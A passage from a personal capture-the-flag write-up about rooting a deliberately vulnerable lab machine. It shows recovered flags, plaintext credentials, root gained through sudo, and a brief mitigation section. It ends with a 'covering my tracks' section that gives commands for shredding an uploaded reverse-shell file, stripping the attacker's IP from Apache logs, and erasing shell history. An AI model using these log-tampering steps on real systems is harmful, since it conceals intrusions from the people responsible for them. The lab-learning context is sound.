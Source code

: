 ```
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
```
I immidiately went to login as technawi.
I went straight to /var/www/html/ and viewed flag.txt:
```
The 5th flag is : {5473215946785213456975249}

Good job :)

You find 5 flags and got their points and finish the first scenario....
```
After this i tried to login as root:
```
technawi@Jordaninfosec-CTF01:/var/www/html$ sudo -s
[sudo] password for technawi: 
root@Jordaninfosec-CTF01:/var/www/html# whoami
root
root@Jordaninfosec-CTF01:/var/www/html#
```
So now i am finished with breaking into the machine.
### Mitigation-ish
I'm still new to how i should mitigate things, and for this reason i didn't find much that i could improve on security on the machine.
So there's only two things i could think of, robots.txt and (the permissions on) the credentials file.
First robots.txt.
I still don't know what the ideal robots.txt structure would be, but here's what i think should be:
```
User-agent: *
Disallow: /
```
And before i forget, you shouldn't have any sensitive information in comments (like in /admin_area), so i removed those.
I know that it's better to not have any files with credentials of any sort, but i'm imagening that it would need to be there so i did not delete the file, but instead changed the file permissions:
```
chmod 700 /etc/mysql/conf.d/credentials.txt
```
That is about it for the mitigation part.
### Covering my tracks
I first of all removed my shell file.
```
shred -n 30 -z -u /var/www/html/uploaded_files/php-reverse-shell.php
```
After that i went to remove my traces from the weblogs.
```
grep -v "192.168.1.5" /var/log/apache2/access.log > /tmp/a && mv /tmp/a /var/log/apache2/access.log
grep -v "192.168.1.5" /var/log/apache2/error.log > /tmp/a && mv /tmp/a /var/log/apache2/error.log
```
After that i checked for any files with my ip in it in the directory /var/log:
`find ./ -type f -exec grep "192.168.1.5" {} \;`:
```
Binary file ./btmp matches
Binary file ./wtmp matches
Binary file ./lastlog matches
#plus more from auth.log
```
I forgot to do something so went out of root and did:
```
export HISTSIZE=0
```
And shredded the .bash_history file.